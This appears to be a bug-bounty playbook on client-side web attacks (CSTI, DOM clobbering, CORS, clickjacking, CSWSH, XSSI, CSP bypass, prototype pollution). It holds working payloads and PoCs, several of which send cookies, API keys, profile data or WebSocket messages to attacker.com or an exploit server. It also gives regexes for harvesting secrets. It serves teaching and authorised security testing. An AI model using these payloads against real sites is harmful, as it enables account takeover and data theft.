

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: JWT Auditing](JWT%20&%20Auth%20Token%20Auditing.md) >>*
---

# DOM-Based & Client-Side Logic [MASTER] : Master Playbook

> **Goal:** Manipulating the client-side execution environment (the browser) to execute unauthorized scripts, steal data, or bypass logic.
> **Triggers:** Any input that reaches a JavaScript Sink (eval, innerHTML, location.href), Frameable pages, or Cross-Origin communication (CORS/PostMessage).
> **Context:** In client-side logic attacks, you aren't attacking the server. You are attacking the **victim's browser**. You are finding the "strings" (global variables, template tags, or origins) that the browser uses to make decisions, and pulling them to force the application to perform actions for you.
> **Hacker Mindset:** "I'm the puppet master. The browser thinks it's running safe code from the developer, but it's actually dancing to my tune."

---

## 0. Exploit Selection Search Tree
*Use this logic to decide which technique to use based on the observed browser behavior:*



1.  **Is the page frameable and lacks `X-Frame-Options` or CSP `frame-ancestors`?**
    *   **Yes** → Use **[[#6. Clickjacking & UI Redressing]]**.
2.  **Does a Cross-Origin request return `Access-Control-Allow-Origin: *` or reflect your origin?**
    *   **Yes** → Use **[[#5. Insecure CORS Configurations]]**.
3.  **Is user input rendered in `{{...}}` or `${...}` and evaluated (e.g., `{{7*7}}` = `49`)?**
    *   **Yes** → Use **[[#3. Client-Side Template Injection (CSTI)]]**.
4.  **Is HTML injection possible (e.g., `<a>`, ``) but `<script>` is blocked?**
    *   **Yes** → Use **[[#4. DOM Clobbering]]** or **[[#20. Dangling Markup Injection]]**.
5.  **Does the application use `window.addEventListener('message', ...)`?**
    *   **Yes** → Use **[[#8. PostMessage & Window Interaction Auditing]]**.
6.  **Are you accessing sensitive site data from a high-privilege context (Android/Extension)?**
    *   **Yes** → Use **[[#7. Universal XSS (UXSS) & SOP Hijacking]]**.
7.  **Do you need to spoof the mobile address bar for phishing?**
    *   **Yes** → Use **[[#9. Address Bar Spoofing & UI Deception]]**.
8.  **Is sensitive JSON/JS data leaked in remote script files (XSSI)?**
    *   **Yes** → Use **[[#13. XSSI (Cross-Site Script Inclusion)]]**.
9.  **Does the application allow SVG or Image uploads?**
    *   **Yes** → Use **[[#14. XSS via File Upload (SVG/GIF)]]**.
10. **Are user input sources controlling `location.href` or `window.open`?**
    *   **Yes** → Use **[[#16. DOM-Based Open Redirects]]**.
11. **Is a WebSocket connection established without origin validation?**
    *   **Yes** → Use **[[#17. WebSocket Client-Side Hijacking (CSWSH)]]**.
12. **Are sensitive secrets (JWTs, PII) stored in `localStorage` or `IndexedDB`?**
    *   **Yes** → Use **[[#19. Browser Storage Auditing]]**.
13. **Are common JS libraries (lodash, jQuery) present and processing object merges?**
    *   **Yes** → Use **[[#21. Prototype Pollution -> DOM XSS Chains]]**.

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **CSTI** | Controlling the restaurant's menu printer. | `{{7*7}}` renders as `49`. | Script execution via template. | **High/Critical** |
| **DOM Clobbering** | Handing a fake name tag to a teacher. | HTML element overwrites JS global. | Logic bypass or XSS via config. | **Medium/High** |
| **Insecure CORS** | Sticky note on a bank vault: "Open for anyone". | Reflective `Origin` + `Credentials: true`. | Private data read cross-origin. | **High** |
| **Clickjacking** | Invisible glass over a dangerous button. | Page is frameable via iframe. | Victim triggers sensitive action. | **Medium/High** |
| **CSWSH** | Eavesdropping on a "clubhouse" phone call. | WebSocket connects with any origin. | Private messages intercepted. | **High** |
| **Dangling Markup**| Leaving a sentence unclosed to steal secrets. | Incomplete tag captures HTML. | CSRF token or secret exfiltrated. | **Medium** |

---

## 2. Diagnostic Checklist (Hunter Questions)

- **1. Is there any user input affecting the URL or window targets?**
    - *Ask*: Does the page redirect based on a `?url=` or `?next=` param handled by JS?
- **2. Does the site use WebSockets for private communication?**
    - *Ask*: Can I initiate a WebSocket connection from a cross-origin malicious site?
- **3. Is there a strict CSP in place, and can it be bypassed?**
    - *Ask*: Does the CSP allow `unsafe-eval` or whitelist CDNs with known JSONP gadgets?
- **4. What is the site storing in my browser?**
    - *Ask*: Does `localStorage` or `sessionStorage` contain session tokens, PII, or internal IDs?
- **5. Are there any vulnerable DOM sinks present?**
    - *Ask*: Use **DOM Invader** to find where my input goes; is it reaching `eval()`, `innerHTML`, or `location`?

---

## Client-Side Template Injection (CSTI)

### 3.0 Why It Happens (The "Design Leak")
Modern websites aren't just static text; they use "Engines" like Vue or AngularJS to build the page on the fly. These engines look for special symbols like `{{ }}` to know where to put data. If you can trick the engine into thinking your input is actually a command, you can take over the "drawing board" of the website.

> **Beginner Analogy**: Imagine a restaurant menu that says `Welcome, {{Name}}`. If you change your name to `{{7*7}}`, and the printer prints `Welcome, 49`, you’ve just controlled the restaurant's printing computer!

### 3.1 Detection Technique
CSTI occurs when user input is embedded into a client-side template engine and executed.
*   **Test Payload**: Inject `{{7*7}}` or `${7*7}`.
*   **Verification**: If the rendered page shows `49` (evaluated in the browser DOM, not the server response), it is vulnerable.

> **Beginner Note**: Always check the "View Source" (Ctrl+U). If you see `49` in the raw HTML, it was calculated by the server (SSTI). If you see `{{7*7}}` in the source but `49` on the screen, it’s a client-side CSTI!

### 3.2 Core Payloads & Sandbox Bypasses
> [!IMPORTANT]
> Bypassing sandboxes in older versions often requires more complex property-access chains.

*   **AngularJS**:
    - Basic: `{{constructor.constructor('alert(1)')()}}`
    - Advanced: `{{[].constructor.constructor('alert(1)')()}}`
*   **Vue.js**:
    - `{{_openBlock.constructor('alert(1)')()}}`
*   **Mavo**:
    - `[self.constructor.constructor('alert(1)')()]`

---

## 4. DOM Clobbering

### 4.0 Why It Happens (The "Name Hijack")
JavaScript uses "Global Variables" to store important settings. However, browsers have a quirk: they automatically turn any HTML element with an `id` or `name` into a global variable. If you inject an element with the same name as a real variable, your HTML "clobbers" (overwrites) the real data.

> **Beginner Analogy**: It’s like a teacher calling for "John" to come to the front, but you’ve just handed a name tag that says "John" to a random person in the hallway. The teacher starts giving instructions to the wrong person!

### 4.1 The Concept
Overwriting global JavaScript variables or object properties by injecting HTML elements with conflicting `id` or `name` attributes. Browsers automatically create global references for elements with these attributes.

### 4.2 Exploitation Scenarios
*   **Config Overwriting**:
    - **Concept**: `var config = window.config || { url: 'default' };`
    - **Injection**: `<a id="config" href="https://attacker.com"></a>`
    - **Result**: `config.href` (or even `config` itself) now points to the attacker-controlled element.

*   **Script Source Hijacking**:
    - **Target Code**: `var script = document.createElement('script'); script.src = window.plugin.path;`
    - **Injection**: `<a id="plugin"></a><a id="plugin" name="path" href="https://attacker.com/evil.js"></a>`
    - **Result**: `window.plugin.path` returns the `href` of the second element, leading to arbitrary script execution.

---

## Insecure CORS Configurations

### 5.0 Why It Happens (The "Open Gate")
Browsers normally block one website from reading data from another (Same-Origin Policy). "Cross-Origin Resource Sharing" (CORS) is the "permission slip" that lets a site say "I trust this other domain." If a site is lazy and says "I trust everyone!", any malicious site can steal the victim's private data.

> **Beginner Analogy**: A bank vault usually only opens for the manager. An insecure CORS policy is like a sticky note on the vault that says: "Open for anyone who asks nicely."

> **Restoration Note**: Exploiting misconfigured Cross-Origin Resource Sharing (CORS) policies to read sensitive data cross-origin via a victim's browser.

### 5.1 The "Reflect Test"
*   **Action**: Send a request with `Origin: https://attacker.com`.
*   **Signal**: Check if the response contains `Access-Control-Allow-Origin: https://attacker.com`.
*   **Credential Rule**: The attack is only viable for authenticated data if `Access-Control-Allow-Credentials: true` is also present.

### 5.2 Bypass & Validation Techniques
*   **Regex / Dot Deception**: `https://target.com_.attacker.com`
*   **Subdomain Spoofing**: `https://target.com.attacker.com`
*   **Origin: null**: Exploited via a sandboxed iframe:
    ```html
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>fetch('https://target.com/api/me', {credentials: 'include'}).then(r=>r.text()).then(alert);</script>"></iframe>
    ```
*   **Subdomain XSS Chain**: If a trusted subdomain (e.g., `blog.target.com`) has XSS, use it to make requests to the API domain (`api.target.com`) that only whitelists its own subdomains.

### 5.3 Data Siphoning PoC
```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function() {
    fetch('https://attacker.com/log?data=' + btoa(this.responseText));
  };
  req.open('get', 'https://target.com/api/user/profile', true);
  req.withCredentials = true;
  req.send();
</script>
```

> **Beginner Note**: `btoa()` is a JavaScript function that converts text into Base64. We use this because private data often contains special characters that break URL requests. `req.withCredentials = true` is the "Magic Switch"—without it, the browser won't send the victim's session cookies, and you'll only see a generic "Unauthorized" page.

---

## Clickjacking & UI Redressing

### 6.0 Why It Happens (The "Invisible Overlay")
Browsers allow one website to "embed" another (like a video inside a page). Clickjacking happens when a malicious site embeds your target site inside an invisible layer (an "iframe"). Because the target is invisible, you think you are clicking a "Win a Prize" button on the top layer, but you are actually clicking the "Delete Account" button on the hidden layer below.

> **Beginner Analogy**: Imagine a clear piece of glass placed over a dangerous button. Someone paints a "Press for Candy" sign on the glass. You press the sign, but the force of your finger goes through the glass and hits the dangerous button underneath.

### 6.1 Core Discovery
*   **Frameable Check**: Attempt to iframe the target page. If it loads, it lacks `X-Frame-Options: DENY|SAMEORIGIN` or a restrictive `Content-Security-Policy: frame-ancestors`.
*   **High-Value Sinks**: Target pages with critical buttons: "Delete Account", "Enable 2FA", "OAuth Authorize".

### 6.2 Basic Attack Structure
```html
<style>
  iframe {
    width: 900px;
    height: 700px;
    position: absolute;
    top: 0; left: 0;
    opacity: 0.0001; /* Hidden but clickable */
    z-index: 2;
  }
</style>
<div class="decoy">Click here for a free prize!</div>
<iframe src="https://target.com/settings/delete"></iframe>
```

> **Beginner Note**: The `opacity: 0.0001` trick makes the target site fully transparent. It’s still there, and the browser still sends clicks to it, but the victim only sees the "Decoy" (the prize button).

### 6.3 Advanced Redressing
*   **Drag & Drop Redressing**: Tricking the user into dragging a malicious payload into a hidden form field.
    - **Mechanism**: The user thinks they are interacting with a "captcha", but they are actually dragging data into a settings field.
*   **Multi-Click (DoubleClickjacking)**: Abusing timing differences between `mousedown` and `onclick` events to hit hidden elements.

---

## 7. Universal XSS (UXSS) & SOP Hijacking

### 7.0 Why It Happens (The "Browser Crack")
The Same-Origin Policy (SOP) is the browser's most fundamental law: "Site A cannot talk to Site B." UXSS happens when there is a bug in the browser itself (like a crack in the foundation of a building) that allows an attacker to break this law and read data from any open tab.

> **Beginner Analogy**: If the world is a series of locked hotel rooms (websites), UXSS is a "Skeleton Key" that lets you walk into any room at any time, regardless of whether the door is locked by the owner.

### 7.1 Android WebView Bypasses
*   **Null-Byte Injection**: Injecting `%00` into `loadUrl()` calls in vulnerable Android apps to bypass origin checks.
*   **File URI Bypasses**: Using `file://` to read local files (e.g., `cookies.db`) and exfiltrate them.

### 7.2 Chrome Extension Exploitation
*   **Externally Connectable**: Exploiting background scripts that allow messages from any domain (`"externally_connectable": {"matches": ["*://*/*"]}`).

---

## PostMessage & Window Interaction Auditing

### 8.0 Why It Happens (The "Unchecked Letter")
Websites often need to talk to each other (like a checkout page talking to a payment window). They use `postMessage` to send "letters" back and forth. If a website receives a letter but doesn't check who sent it, it might execute a dangerous command (like "Reset Password") just because the letter asked it to.

> **Beginner Analogy**: It’s like a bank receiving a letter that says "Transfer $1,000 to John." If the bank doesn't check the signature or the return address, they might just do it.

### 8.1 Vulnerability Discovery
*   **Sink**: `window.addEventListener('message', ...)`
*   **Risk**: If the listener fails to validate `event.origin`, any site can send sensitive commands to the window.
*   **Verification**: Use **DOM Invader** to identify active PostMessage listeners and their origins.

### 8.2 PostMessage Hijack PoC
```javascript
// Attacker site
var win = window.open("https://target.com/dashboard");
setTimeout(function() {
  win.postMessage({"action": "delete_account"}, "*");
}, 2000);
```

---

## 9. Address Bar Spoofing & UI Deception

### 9.0 Why It Happens (The "Fake ID")
Users trust the URL in the address bar to tell them where they are. Address bar spoofing uses technical tricks to make the browser show a "Safe" URL (like `paypal.com`) while the user is actually on a "Malicious" site. It’s the ultimate trick in phishing.

> **Beginner Analogy**: Imagine walking into a building that has a giant "POLICE STATION" sign on the front, but the moment you walk inside, you realize you're actually in a den of thieves. The sign (the URL) was a lie.

### 9.1 Spoofing Techniques
*   **RTLO URI Spoofing**: Using the `U+202E` character (`%E2%80%AE`) to reverse the display of the URL in the address bar (e.g., `legit.com/‮moc.evil`).
*   **Timing-Based Hijack**: Using `setInterval` to repeatedly push states to history or reload, preventing the browser from updating the address bar.

---

## 10. DOM XSS Sources & Sinks Cheat Sheet

### 10.0 The "River" Concept (Flow of Data)
In DOM attacks, think of data like a river.
1.  **The Source (The Input)**: This is where the "water" (your payload) enters the page (e.g., the URL bar).
2.  **The Sink (The Execution)**: This is where the "water" finally triggers a reaction (e.g., executing as script).
To find a bug, you simply need to find a "path" where your water can flow from the Source to the Sink without being cleaned (sanitized) along the way.

> **Hunter Strategy**: Use Burp's **DOM Invader** or dev tools to trace data from a **Source** (where your input starts) to a **Sink** (where it executes).

### 10.1 Common Sources (The "Inlets")
| Source | Description |
| :--- | :--- |
| `location.search` | Data after the `?` in the URL (Parameters). |
| `location.hash` | Data after the `#` in the URL (Fragments). |
| `document.referrer` | The URL of the page that linked to this one. |
| `window.name` | Data passed from a referring window via `window.name`. |
| `document.cookie` | Data stored in local cookies. |
| `localStorage` | Persistent data stored in the browser (see Section 19). |

### 10.2 Dangerous Sinks (The "Execution Points")
| Sink Type | Sink Functions | Success Indicators |
| :--- | :--- | :--- |
| **Exec Sinks** | `eval()`, `setTimeout()`, `setInterval()` | JavaScript executes immediately. |
| **HTML Sinks** | `innerHTML`, `outerHTML`, `document.write()` | HTML tags (like ``) are rendered. |
| **Path Sinks** | `location.href`, `location.assign()`, `src` | Browser redirects or loads a remote resource. |
| **Attribute Sinks** | `element.setAttribute()`, `element.onclick` | An element's behavior is modified. |

### 10.3 DOM Invader Masterclass (The "Hunting Pro")
Burp Suite’s **DOM Invader** is the industry standard for finding DOM XSS. It automates the "Flow" tracing for you.

*   **Step 1: Enable**: Open Burp's embedded browser, go to any page, and click the **DOM Invader** tab in DevTools.
*   **Step 2: Inject Canary**: Type a unique string (a "Canary") like `xss-hunter-123` into the URL parameters or form fields.
*   **Step 3: Augment**: Click **"Augment DOM"**. This will highlight every place your canary appears in the page.
*   **Step 4: Audit Sinks**: Look at the "Sinks" tab in DOM Invader. It will show you exactly which Sink (e.g., `innerHTML`) your Canary reached and if any "Sanitizers" (filters) tried to stop it.

> **Beginner Note**: If you see a Sink labeled with a green checkmark, it means your input reached the execution point completely untouched. This is your "Gold Ticket" to a vulnerability!

---

## 11. Narrated Lab Walkthroughs (Heritage Restoration)

### 11.1 Case Study: XSS to Cookie Theft to Admin Takeover
> This chain demonstrates how a client-side injection (XSS) can be used to pivot into full server-side compromise.

1.  **Step 1**: Identify XSS in the comment field.
    > **Beginner Note**: Start by typing a simple string like `TEST-INPUT` in every field. If `TEST-INPUT` appears back on the page, try a basic tag like `<b>TEST</b>`. If it turns bold, the door is open for XSS!
2.  **Step 2**: Inject the cookie-stealing script.
    ```html
    <script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
    ```
    > **Beginner Note**: This script tells the victim's browser: "Go to my server and bring your cookies with you as a gift!"
3.  **Step 3**: Monitor the access log on your exploit server.
    
    > **Beginner Note**: Look at the image above—the `GET` request in the Burp log contains the victim's session cookie as a URL parameter. This is the "Stolen Goods" we were looking for.

4.  **Step 4**: Decode the stolen cookie to find the hash.
    
    > **Beginner Note**: Most cookies are encoded in Base64 (looks like text ending in `==`). Use Burp's **Decoder** tab to reveal the hidden password or session hash inside.

### 11.2 Case Study: Clickjacking to Disable 2FA
1.  **Step 1**: Identify that the `/settings/2fa` page is frameable.
    > **Beginner Note**: Right-click the page and select "Inspect". If you don't see `X-Frame-Options` in the response headers, the site is vulnerable to being "captured" inside an iframe.
2.  **Step 2**: Create a decoy page that overlays the "Disable" button.
    > **Beginner Note**: You are building a "Fake Front" (like a movie set). You place a fun button (e.g., "Click for Free Dog Pix") exactly where the "Disable 2FA" button is hidden underneath.
3.  **Step 3**: Socially engineer the victim into clicking the "Prize" on your decoy.
    
    > **Beginner Note**: As seen in the screenshot, the victim sees your "Prize" button. When they click it, their click passes through the invisible top layer and hits the real "Disable" button on the target site.


---

## 12. Automation & Discovery Oneliners

### 12.0 Why It Happens (The "Force Multiplier")
Manually clicking through a site to find every `.js` file or parameter is slow and prone to error. Professional hunters use automation "oneliners" to do the boring work for them at high speed. This lets you focus your human brain on the complex logic once the assets are found.

> **Beginner Analogy**: It’s like using a metal detector on a beach. Instead of digging everywhere by hand, the machine beeps whenever something interesting is found. You only start digging where the machine tells you to.

> [!TIP]
> **The Pipeline Strategy**: Use these commands to rapidly identify client-side attack surfaces across large domains.

### 12.1 JS Discovery (Katana & Gau)
*   **Headless Deep Scan**:
    ```bash
    katana -u "https://$DOMAIN" -d 5 -headless -js-crawl -js-lu-crawl -kf all -aff -o katana_max.txt
    ```
*   **JS Asset Collection**:
    ```bash
    gau -subs $DOMAIN | grep -iE '\.js' | grep -iEv '(\.jsp|\.json)' >> js_assets.txt
    ```

### 12.2 XSS & Param Probing
*   **KXSS Pipeline**:
    ```bash
    cat urls.txt | uro | Gxss | kxss | tee xss_candidates.txt
    ```

---

## 13. XSSI (Cross-Site Script Inclusion)

### 13.0 Why It Happens (The "Open Book")
Browsers allow you to load scripts from any domain (e.g., loading a Google Analytics script). If a website puts sensitive user data *inside* a raw JavaScript file, an attacker can simply "include" that file on their own site and read the data, because the script tag doesn't obey the Same-Origin Policy.

> **Beginner Analogy**: Imagine a diary that is locked, but the owner accidentally glued the private pages to the outside of the cover. Anyone who walks past can read the pages without ever needing the key.

### 13.1 The Vulnerability
XSSI occurs when a site returns sensitive data as executable JavaScript (e.g., a `.js` file or a JSONP endpoint) and fails to set `X-Content-Type-Options: nosniff`. Since `<script>` tags ignore the Same-Origin Policy (SOP), an attacker site can include your script and read the global variables.

### 13.2 Inclusion PoC
```html
<!-- Hosted on attacker.com -->
<script src="https://target.com/api/user_config.js"></script>
<script>
  // Access the variables leaked into the global window
  alert("Leaked API Key: " + window.userConfig.apiKey);
  fetch('https://attacker.com/log?key=' + window.userConfig.apiKey);
</script>
```

---

## 14. XSS via File Upload (SVG/GIF)

### 14.0 Why It Happens (The "Trojan Horse Image")
Modern images (especially SVGs) aren't just pixels; they are written in XML code. This means they can contain scripts. If a site lets you upload an image but doesn't "sanitize" that code, viewing the image becomes as dangerous as visiting a malicious website.

> **Beginner Analogy**: It’s like a gift-wrapped box (the image) that looks innocent on the outside, but when the recipient opens it (views the image), a spring-loaded "boxing glove" (the script) pops out and hits them.

### 14.1 SVG Execution
SVG is an XML-based image format that supports embedded scripts. If an application allows SVG uploads and serves them with `image/svg+xml`, the script will execute when the image is viewed directly.

*   **Payload**:
    ```xml
    <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
    ```
*   **Filename Injection**:
    Set the filename to `"svg onload=alert(document.domain)>.jpg"` or similar to trick parsers into rendering it as HTML.

### 14.2 Polyglot Images (GIF/JPG)
Creating "Polyglot" files that are valid images but also valid JavaScript.
*   **GIF89a Payload**:
    ```text
    GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
    ```

---

## 15. Cross-Domain Token Logic

### 15.0 Why It Happens (The "Shared Key")
Large companies often have many websites (brandA.com, brandB.com). Sometimes, they use the same "Master Key" (token) to handle things like password resets for all of them. If you get a key for the "cheap" site, it might accidentally work for the "premium" site too.

> **Beginner Analogy**: You buy a cheap padlock for your gym locker. You realize that the key for your gym locker also opens the front door of the entire gym!

### 15.1 The Concept
If a company uses multiple related domains (e.g., `brand-a.com` and `brand-b.com`) and a single underlying backend for features like Password Reset, tokens generated on one domain may be valid on the other.

### 15.2 The "Crossdomain Token" Test
1.  Generate a Password Reset link for `brand-a.com`.
2.  Change the domain in the link to `brand-b.com`.
3.  Attempt to reset the password.
4.  **Impact**: If successful, you can bypass domain-specific protections or hijack accounts across a parent organization's eco-system.

---

## 16. DOM-Based Open Redirects

### 16.0 Why It Happens (The "Fake Concierge")
A redirect tells the browser to go to a new URL. "Open" redirects happen when the destination is controlled by the user. An attacker can send a victim a link that looks safe (e.g., `legit.com?goto=evil.com`). The victim trusts `legit.com`, but the site immediately passes them off to a phishing page.

> **Beginner Analogy**: You go to a hotel (legit site) and ask the concierge for directions to the lobby. The concierge (the vulnerable code) points you to a door that actually leads into a criminal's car outside.

> [!IMPORTANT]
> **Sink Auditing**: Look for user input being passed to `location`, `location.href`, `location.assign()`, or `location.replace()`.

### 16.1 Common Sinks
*   `location.href = user_input;`
*   `location.replace(user_input);`
*   `window.open(user_input);`

### 16.2 Bypass & Phishing Payloads
*   **Url Encoding Deception**: `//google.com%2f@attacker.com`
*   **Protocol Relative**: `//attacker.com`
*   **Data URI (XSS Chain)**: `javascript:alert(document.domain)` (If the sink allows `javascript:` protocol).
*   **Null Byte Deception**: `https://legit.com%00.attacker.com`

---

## 17. WebSocket Client-Side Hijacking (CSWSH)

### 17.0 Why It Happens (The "Open Tunnel")
WebSockets are like long-lasting telephone calls between your browser and the server. CSWSH happens when the server doesn't check "who made the call" (the Origin header). An attacker can trick your browser into "calling" the server while you are visiting the attacker's site, letting them eavesdrop on your private conversations.

> **Beginner Analogy**: It’s like a secret clubhouse that leaves the window open. Anyone who walks by can stick their head in and listen to the secret meetings, simply because the clubhouse members forgot to check if the person at the window was a member.

### 17.1 Cross-Origin WebSocket Hijacking
If a WebSocket handshake does not validate the `Origin` header, a malicious site can initiate a connection to the server using the victim's session cookies.

*   **Attack Flow**:
    1.  Victim visits `attacker.com`.
    2.  `attacker.com` runs JavaScript to `new WebSocket("wss://target.com/chat")`.
    3.  Browser sends the victim's authentication cookies with the handshake.
    4.  Attacker's script can now send and receive private messages as the victim.

### 17.2 Verification PoC
```javascript
// Simple CSWSH Template
var socket = new WebSocket('wss://target.com/chat');
socket.onopen = function() {
  socket.send(JSON.stringify({action: 'get_history'}));
};
socket.onmessage = function(event) {
  fetch('https://attacker.com/log?msg=' + event.data);
};
```

### 17.3 WebSocket Smuggling

#### The 101 Response Trick
*   **Concept**: Masking a WebSocket handshake to trick a proxy into believing a `101 Switching Protocols` has occurred, when the backend actually sees a standard HTTP request.
*   **Scenario**: The proxy stops inspecting the "streamed" connection, allowing the attacker to send requests directly to internal backend microservices that are normally hidden.

#### H2 Upgrade Bypasses
*   **Logic**: In HTTP/2, WebSockets use the `:protocol` pseudo-header. If the front-end supports H2 but the back-end downgrades to HTTP/1.1 incorrectly, request smuggling occurs.

### 17.4 Logic & Message Tampering

#### Message Fuzzing
*   **Action**: Intercept and modify WebSocket messages in both directions using Burp Suite's WebSockets history.
*   **Targets**:
    - **Authorization**: Change user IDs or role flags in binary/JSON messages.
    - **SQLi/NoSQLi**: Some applications use WebSockets to query databases directly (e.g., real-time dashboards).

#### Denial of Service (DoS)
*   **Mechanism**: Opening thousands of WebSocket connections without closing them to exhaust the server's file descriptors or memory (similar to Slowloris for HTTP).

---


## 18. CSP Bypass Techniques

### 18.0 Why It Happens (The "Hole in the Wall")
Content Security Policy (CSP) is a high wall built around a website to block unauthorized scripts. However, walls often have "service entrances" (whitelisted domains like Google or Twitter). If those entrances have their own security flaws (like JSONP gadgets), an attacker can walk right through the entrance and bypass the entire wall.

> **Beginner Analogy**: Imagine a castle with a massive stone wall. The wall is indestructible, but the King whitelists a specific "Pizza Delivery Guy" to enter. If the delivery guy is actually an assassin in disguise, the wall didn't protect the King at all.

### 18.1 Whitelisted JSONP Gadgets
If the CSP whitelists a domain with a JSONP endpoint (e.g., `ajax.googleapis.com`), you can use it to execute arbitrary JS.
*   **Payload**:
    ```html
    <script src="https://ajax.googleapis.com/ajax/services/feed/find?v=1.0&callback=alert(1)"></script>
    ```

### 18.2 `unsafe-eval` & `unsafe-inline`
*   **Check**: If `script-src` contains `'unsafe-eval'`, you can use `setTimeout(user_input)` as a sink.
*   **Check**: If it contains `'unsafe-inline'`, you can use `<script>alert(1)</script>` directly.

### 18.3 Base-URI Hijacking
If `base-uri` is not restricted, you can change the base URL for all relative script loads.
*   **Payload**: `<base href="https://attacker.com/">`

### 18.4 Rapid CSP Auditing
*   **Google CSP Evaluator**: [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com/)
*   **CLI Check**:
    ```bash
    curl -I -s https://target.com | grep -i "content-security-policy"
    ```

> **Beginner Note**: A CSP that is "Too Long" is often a sign of a weak policy. Developers often whitelist too many domains (like `*.google.com` or `*.fbcdn.net`), which are full of JSONP gadgets you can use to bypass the entire wall.

---

## 19. Browser Storage Auditing

### 19.0 Why It Happens (The "Forgotten Safe")
Websites store data in your browser so they don't have to keep asking the server for it. `localStorage` is like a bedside table drawer—it’s persistent and easy to access. If a developer leaves a "Universal Key" (like a JWT or API key) in that drawer, any script running on the page (even a malicious one) can simply open the drawer and take it.

> **Beginner Analogy**: It’s like a hotel that gives you a safe in your room but leaves the master combination written on a sticky note inside your nightstand.

### 19.1 LocalStorage & SessionStorage
Persistent data is often used for session caching or feature flags.
*   **Audit Command**: Open DevTools > Application > Local Storage.
*   **Hunter Regex**: Cross-reference found data with Section 22 regex patterns.

### 19.2 Sensitive Data Leakage
*   **JWT Exposure**: Check for "id_token" or "access_token" stored without high-entropy encryption.
*   **PII Leakage**: Search for "email", "address", or internal "UUIDs".

---

## 20. Dangling Markup Injection

### 20.0 Why It Happens (The "Unclosed Quote")
Sometimes you can't inject a script, but you *can* inject half of an HTML tag. The browser will keep looking for the "closing quote" or "closing tag" until it finds one. If you leave your tag open, the browser will "swallow" the rest of the page's content (like CSRF tokens) and send it as part of a URL to your server.

> **Beginner Analogy**: It’s like starting a sentence but never finishing it... "And the secret password is " ... The browser then reads everything else in the room and thinks it was part of that sentence until it hears a closing quote.

### 20.1 The "Incomplete Tag" Theft
Used when `<script>` is blocked but HTML injection is allowed. You start a tag but don't close it, causing the page to "eat" the rest of the HTML into your URL.

*   **Payload**:
    ```html
     **See Also**: [Section 18: CSP Bypass Techniques](#18-csp-bypass-techniques) – Dangling markup is often the "Plan B" when a strict CSP blocks all your script-based XSS attempts.

---

## 21. Prototype Pollution -> DOM XSS Chains

### 21.0 Why It Happens (The "DNA Change")
JavaScript objects have "DNA" called a Prototype. If you can "pollute" this DNA, you change the behavior of *every* object in the application. This is dangerous when a script relies on a property that isn't defined—it will "inherit" the polluted value from the DNA and might execute an attacker's command.

> **Beginner Analogy**: It’s like changing the definition of the word "Walk" in every dictionary in the world to mean "Jump." Now, every time someone reads a book that says "Walk to the door," they will jump instead.

### 21.1 The Gadget Principle
Client-side Prototype Pollution becomes critical when a script uses an object's properties as an execution sink.

*   **Chain Example**:
    1.  Pollute `Object.prototype.url = "javascript:alert(1)"`.
    2.  An innocent script runs: `var s = document.createElement('script'); s.src = config.url || 'default.js';`
    3.  If `config.url` is undefined, it falls back to the polluted prototype, executing the payload.

### 21.2 Discovery Methodology (Finding the Pollutable Origin)
To find if an application is vulnerable to PP, inject "Canary" properties into common object-merging points.

*   **URL Parameter Discovery**:
    - Inject `?__proto__[polluted]=true`
    - Check the console: `console.log(Object.prototype.polluted)`
*   **Mass Assignment Points**: Check JSON payloads for `{"__proto__": {"admin": true}}`.
*   **Common Vulnerable Libraries**: Audit `package.json` for older versions of:
    - **lodash** (pre-4.17.15)
    - **jQuery** (pre-3.4.0)

> **Beginner Note**: Prototype Pollution is like "poisoning the well." You don't just attack one person; you change the rules of the entire website for everyone until the page is reloaded.

---

## 22. Browser-Based Secret Extraction (JS Regex)

### 22.0 Why It Happens (The "Hardcoded Mistake")
Developers sometimes use sensitive keys (like AWS keys or private API secrets) during testing and forget to remove them before the code goes live. Because JavaScript is downloaded and run by the user's browser, anyone can "Read the Recipe" of the website and find these hidden ingredients.

> **Beginner Analogy**: It’s like a chef writing the secret code to the restaurant's safe on the back of every customer's receipt. The secret is technically in everyone's hands; they just need to know where to look.

> [!IMPORTANT]
> Use these regex patterns to find hardcoded secrets in discovered `.js` files.

### 22.1 Elite Regex Table
| Secret Type | Regex Pattern |
| :--- | :--- |
| **API Keys** | `(?i)((api_key\|apikey\|api_secret\|app_secret\|client_secret)[a-z0-9_ .\-,]{0,25})(=|>|:=|\|\|:|<=|=>|:).{0,5}['\"]([0-9a-zA-Z\-_=]{8,64})['\"]` |
| **Cloud Creds** | `(?i)(aws_access_key_id\|aws_secret_access_key\|amazon_secret_access_key\|alicloud_access_key)[a-z0-9_ .\-,]{0,25}(=|>|:).{0,5}['\"]([0-9a-zA-Z\-_=]{8,64})['\"]` |
| **S3 Buckets** | `[a-z0-9.-]+\.s3\.amazonaws\.com\|[a-z0-9.-]+\.s3-[a-z0-9-]+\.amazonaws\.com` |

---

## 23. Client-Side Access Control Bypasses

### 23.0 Why It Happens (The "Honor System")
